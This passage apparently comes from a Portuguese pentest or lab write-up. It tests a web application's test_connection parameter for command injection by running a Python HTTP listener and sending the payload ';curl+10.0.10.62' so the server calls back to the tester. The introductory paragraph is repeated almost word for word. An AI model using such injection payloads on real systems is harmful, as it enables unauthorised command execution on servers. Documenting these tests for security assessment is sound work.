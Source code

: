## Em seguida, executamos testes de command injection para verificar se a aplicação era vulnerável a esse tipo de ataque. Para isso, configuramos um servidor Python em nossa máquina para monitorar as requisições recebidas do servidor. Utilizamos o seguinte comando no campo test_connection :

![Descrição da imagem](./images/21.png)

## Agora, executaremos testes de command injection para verificar se a aplicação é vulnerável a esse tipo de ataque. Para isso, configuramos um servidor Python em nossa máquina para monitorar as requisições recebidas do servidor. Utilizamos o seguinte comando no parâmetro test_connection :
### test_connection=;curl+10.0.10.62

```bash
sudo python3 -m http.server 80
```
![Descrição da imagem](./images/22.png)